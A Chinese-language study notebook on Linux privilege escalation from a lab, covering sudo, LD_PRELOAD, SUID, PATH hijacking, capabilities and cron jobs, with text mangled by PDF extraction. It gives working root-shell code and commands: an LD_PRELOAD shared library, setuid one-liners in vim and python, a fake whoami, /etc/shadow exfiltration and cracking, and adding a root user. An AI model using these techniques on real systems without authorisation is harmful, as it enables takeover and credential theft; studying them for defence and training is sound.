## 第 1 页

Linux提权基础

一、sudo

任何用户都可以使用 sudo -l 命令来查看自己当前在 root 权限方面的状态。 在这种情况下，用户可以以 root 身份运行 /usr/bin/nano ，/usr/sbin/apache2 ，这意味着他们可以以 root 权限 读取任何文件。 在这种情况下，你可以利用应用程序的某些功能来“巧妙地”泄露信息。如下所示，Apache2 提供了一个选项，可用 于加载替代的配置文件（ -f ：指定替代的 ServerConŨgFile） (使用此选项加载 /etc/shadow 文件时，会出现错误消息。该错误消息中包含 /etc/shadow 文件的第一行内容。由 于那一行正是该文件的“根哈希值”，因此实际上就得到了该文件的根哈希值。而这个根哈希值是可以被离线破解 的。在 Ubuntu 系统中，相应的命令如下： sudo apache2 -C "LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so" -f /etc/shadow ) 【此处做知识补充】





## 第 2 页

重点：LD_PRELOAD 是一种允许任何程序使用共享库的机制。如果启用 了“env_keep”选项，那么可以创建这样的共享库：该共享库会在程序运行 之前被加载并执行，如果实际用户 ID 与有效用户 ID 不同，LD_PRELOAD 选项将被忽略。

这种特权提升方式的步骤可以概括如下： 1. 检查 LD_PRELOAD 参数的设置情况（env_keep 选项）。 2. 编写一段简单的 C 代码，将其编译为共享对象文件（扩展名为.so） 3. 以 sudo 权限运行该程序，并确保 LD_PRELOAD 选项指向我们的.so 文件。

该 C 代码只需创建一个根 shell 即可，其实现方式如下：

将这段代码保存为 shell.c，然后使用以下参数，通过 gcc 将其编译为共享对象文件： gcc -fPIC -shared -o shell.so shell.c -nostartŨles 然后可以得出来一个shell.so的文件（用于提权） 每当启动任何需要使用 sudo 权限才能运行的程序时，都可以使用这个共享对象文件。也就是说， apache2 、 nano ，以及几乎所有需要 sudo 权限才能运行的程序，都可以使用这个共享对象文件。 通过指定 LD_PRELOAD 选项来运行该程序： sudo LD_PRELOAD=~/shell.so apache2 ~/shell.so(该so程序的所在位置)，apache2为 sudo -l里面的：(ALL) NOPASSWD: /usr/sbin/apache2（有 sudo权限） 这样，就会生成一个拥有 root 权限的 shell。 使用#include <stdio.h> #include <sys/types.h> #include <stdlib.h> void _init() { unsetenv("LD_PRELOAD"); setgid(0); setuid(0); system("/bin/bash"); }



## 第 3 页

2.SUID

Linux 中的许多权限控制机制，都是通过控制用户与文件之间的交互来实现的。这一过程是通过设置权限来完成 的。文件可以被赋予读取、写入和执行等权限。这些权限是根据用户的权限级别来分配的。不过，SUID 和 SGID 机制则有所不同：它们允许文件以文件所有者或所属组的权限来被执行。 注意到，这些文件都设置了 s 位，以此来标识其特殊的权限级别。这意味着，该程序将以二进制文件所有者的有 效用户身份来运行 使用命令：Ũnd / -type f -perm -04000 -ls 2>/dev/null 会列出那些设置了 SUID 或 SGID 位的文件 （将上述命令中 的-04000换成-02000，则是查找设置了SGID位的文件）

将这份列表中的可执行文件与 GTFOBins 网站上的数据进行对比（https://gtfobins.github.io）。点击“SUID”按钮 后，就能筛选出那些设置了 SUID 位的、容易被利用的可执行文件。这个网站里的命令顺序是根据字母表顺序，可 以根据头部字母进行快速翻看。从上面的列表可以看出，nano 这个程序设置了 SUID 位。 在现实中的权限提升场景中，通常需要找到一些中间步骤，以便充分利用那些微小的漏洞来提升权限。





## 第 4 页

可以看出这里的suid可利用权限就是vim命令 查看当前两个核心文件的权限设置 /etc/passwd 默认所有用户都可以读，所以普通用户 john 可以直接复制：

通常会看到类似：

重点是最后的 r-- ，表示其他用户也有读权限。所以可以：

但 /etc/shadow 默认只有 root 或 shadow 组能读： ls -l /etc/passwd -rw-r--r-- 1 root root ... /etc/passwd cp /etc/passwd /home/john/passwd.txt





## 第 5 页

vim /etc/shadow 会打印出 /etc/shadow 文件的内容。可以使用 unshadow 工具来创建一个可以被 John the Ripper 破解的文件。为此，unshadow 需要 /etc/shadow 和 /etc/passwd 这两个文件 1. 在 Vim 里把内容另存到能读的位置：

:q! 退出 /etc/passwd 直接复制过来 ls -l /etc/shadow

-rw-r----- 1 root shadow 1139 Jul  7 08:24 /etc/shadow

这里才需要用带 SUID 的 /usr/bin/vim.basic。因为这个 Vim 是以 root 权限运行的，它可以打开 /etc/shadow，然后你在 Vim 里执行： :w! /home/john/shadow.txt :w! /home/john/shadow.txt





## 第 6 页

先在 自己的操作机器Kali 上建个目录：

然后从靶机拉文件（操作命令scp）：

密码都输入（靶机密码）：

确认文件到了 Kali：

然后就在 Kali 上跑：

这里我还好奇为什么只有john没有root用户的，去ai了一波 跟我说使用 grep '^root:' shadow.txt 可以验证 root 是否有可爆破的密码 cp /etc/passwd /home/john/passwd.txt ls -l /home/john/passwd.txt /home/john/shadow.txt mkdir -p ~/suid-lab cd ~/suid-lab scp john@10.48.172.61:/home/john/passwd.txt . scp john@10.48.172.61:/home/john/shadow.txt . john ls -l unshadow passwd.txt shadow.txt > passwords.txt john --format=crypt passwords.txt john --show passwords.txt





## 第 7 页

正常可破解的哈希会像这样：

而 root:*:... 里的 * 或是！ 只是一个占位锁定标记，这就说明了这种方式被否决了 另一种方法是创建一个拥有 root 权限的新用户。这样就能避免繁琐的密码破解过程。以下是具体的操作方法。

需要知道新用户所使用的密码的哈希值。在 Kali Linux 系统中，可以使用 openssl 工具轻松获取该哈希值。 openssl passwd -1 -salt THM password1

然后，你需要将这个密码和用户名一起添加到 /etc/passwd 文件中。 一旦用户被添加进来（里面的root:/bin/bash` 的作用就是用来获取根用户权限的），就需要切换到该用户账户 下。这样一来，就能够拥有根用户权限了。（这个用户的密码就是上面命令的password1） 当然我测试过ai给我提供的通过 Vim 内置的 python3 接口执行 setuid(0) ，然后启动保留权限的 root shell 登录靶机后执行：

root:$y$j9T$.... root:$6$.... root:$1$.... /usr/bin/vim.basic -Nu NONE -n -es -c 'py3 import os; os.setgid(0); os.setuid(0); os.execl("/bin/bash","bash","-p")'









## 第 8 页

验证：

成功结果应类似：

3.PATH

如果用户拥有写入权限的目录位于 PATH 路径下，那么就有可能利用该目录来运行某些脚本。在 Linux 系统中， PATH 是一个环境变量，它告诉操作系统应在何处查找可执行文件。对于那些不是内置在 shell 中的命令，或者没 有指定绝对路径的命令，Linux 会先在 $PATH 所指定的目录中查找这些命令。(这里所说的 PATH 就是指这个环境 变量，而“path”则指的是目录的路径。) 通常， PATH 的外观如下所示： 如果 PATH 中列出了某个可写目录，可以在该目录下创建一个名为“thm”的二进制文件，然后让该“程序”来运行 它。由于该二进制文件设置了 SUID 位，因此它将以 root 权限运行。 可以使用 Ũnd / -type d -writable 2>/dev/null | sort -u 命令来查找可写目录。该命令的输出结果可以通过简单的剪切 和排序操作来整理。 id whoami uid=0(root) gid=0(root) groups=0(root),1001(john) root





## 第 9 页

比较容易写入数据的目录应该是 /tmp 。目前，由于 /tmp 并不存在于 PATH 中，因此需要先将其添加进去。使 用命令：export PATH=/tmp:$PATH 可以看到已经在path变量里面 使用上一个篇章学到的方法，在目标主机上找到具有 SUID 权限的二进制文件。 可以看到一个十分显眼的自定义的、非系统自带的程序， 先侦察 mywhoami 到底调用了什么,通常这种自定义程序就是调用了 system("whoami")

strings /opt/path/mywhoami





## 第 10 页

因为mywhoami 内部调用的是 whoami ，那么我们就造一个假的 whoami ，并给这个whoami命令增加可执行权 限：

这时 mywhoami 会执行 whoami ，找到就是 /tmp/whoami ，也就是 /bin/bash ，于是就拿到了 root shell。 3.Capabilities

什么是 Capabilities

Linux 传统上权限分为 "普通用户" 和 "root" 两个极端。Capabilities 机制把 root 的特权拆分成细粒度的小权限单 元，可以单独赋给某个二进制文件，而不需要给它完整的 root 权限。 为什么它比 SUID 更隐蔽

echo '/bin/bash' > /tmp/whoami chmod +x /tmp/whoami





## 第 11 页

特性 SUID Capabilities 权限范围 获得文件所有者的全部权限 只获得指定的细粒度能力 发现方式 Ũnd / -perm -4000 可枚举 无 SUID 位，getcap 才能发现 安全性 粗粒度，风险大 细粒度，风险相对可控 核心隐蔽点：赋了 capability 的文件没有 SUID 位，常规枚举 SUID 的手法完全发现不了它。 可以使用 getcap 工具来查看已启用的功能列表，当以非特权用户身份运行时， getcap -r / 会生成大量错误信息。 因此，将错误信息重定向到 /dev/null 是个不错的做法 getcap -r / 2>/dev/null getcap 输出中的 +ep 是两个标志位： e (EƊective)：执行时该 capability 立即生效 p (Permitted)：进程被允许使用该 capability cap_setuid 的能力是：可以设置任意用户的 UID，包括 root (UID=0)。所以 cap_setuid+ep 本质上就等于"能变 root"。 查看该二进制文件信息 john@capabilities-box:~$ ls -l /usr/bin/python3.12 -rwxr-xr-x 1 root root 8019136 Sep 11 2024 /usr/bin/python3.12 可以看到/usr/bin/python3.12没有设置 SUID 位。因此，在通过检查 SUID 位来枚举文件时，无法发现这种权限提 升机制 接着便可利用python3.12的方式进行提权 首先，导入 os 库。接着，使用 setuid 将用户 ID 设置为 0（即 root 用户）；如果不这样做，后续命令将使用原 来的用户 ID 来执行。最后，以 root 权限调用 /bin/bash python3.12 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'



## 第 12 页

5.Cron jobs

定时任务用于在特定时间运行脚本或二进制文件。默认情况下，这些任务以任务创建者的权限来运行，而非当前用 户的权限。只要配置得当，定时任务本身并不容易受到攻击；但在某些情况下，它们可能被利用来提升权限。 如果有需要以 root 权限运行的计划任务，而我们又能够修改将要执行的脚本，那么该脚本就会以 root 权限来运 行。 定时任务的配置信息被存储在 crontab 文件中。通过查看 crontab 文件，就可以知道该任务下次将在何时执行。 该系统中的每个用户都有自己的 crontab 文件，因此无论用户是否登录，都可以执行特定的任务。当然，我们的目 标就是找到由 root 用户设置的 cron 任务，让它们来执行我们的脚本——最好是 shell 脚本。 任何用户都可以查看保存在 /etc/crontab 下的、与整个系统相关的 cron 工作信息。 虽然 CTF 测试环境中的机器可以设置每分钟或每 5 分钟执行一次任务，但在实际的渗透测试中，任务更常见的是 每天、每周或每月执行一次。 可以发现没有什么可疑情况都是 Debian/Ubuntu 系统的默认维护任务 虽然大多数情况下，cron 作业都是定义在 /etc/crontab 中的，但这也并非唯一可以定义 cron 作业的位置。其他可 以定义 cron 作业的地方还有： /etc/cron.d/ — 用于存放各种 crontab 脚本片段的目录，通常由各种软件包所使用。其格式与 /etc/crontab 相同 （也包括用户信息字段）。 /etc/cron.hourly/ — 这里的脚本每小时执行一次。





## 第 13 页

文件 修改时间 说明 .placeholder Feb 13 2020 系统占位文件 cleanup Mar 3 07:27 最近修改，与其他系统文件时间明显不同步 e2scrub_all Feb 14 2020 系统默认 sysstat Jan 9 2024 软件包安装时写入 /etc/cron.daily/ — 这里的脚本每天执行一次。 /etc/cron.weekly/ — 这里的脚本每周执行一次。 /etc/cron.monthly/ — 这里的脚本每月执行一次。 /var/spool/cron/crontabs/ (Debian/Ubuntu) — 每位用户的个人 crontab 文件都存储在这里，文件名与该用户的用 户名相同。 从 ls -la /etc/cron.d/ 的输出可以判断 /etc/cron.d/cleanup 是可疑的，依据如下： cleanup 是 /etc/cron.d/ 目录里唯一一个"非系统默认"的文件。 查看该文件权限设置可以发现 root /usr/local/bin/cleanup.sh 显然这是一个可利用漏洞 并且当前用户有权访问该脚本，可以对其进行修改，从而创建出一个具有 root 权限的反向 shell。 该脚本会利用目标系统上可用的工具来建立反向 shell 连接。 需要注意两点：





## 第 14 页

1. 命令的语法会因所使用的工具而有所不同。（例如， nc 很可能不支持你在其他情况下见过的 -e 选项。） 2. 在真正的渗透测试过程中，应始终优先使用反向 shell 来进行操作，这样才能避免破坏系统的完整性。 用vim修改替换 /usr/local/bin/cleanup.sh 文件

接着，在发起攻击的机器上运行一个监听程序，以接收进来的连接请求。 6.NFS

1. 漏洞核心：no_root_squash

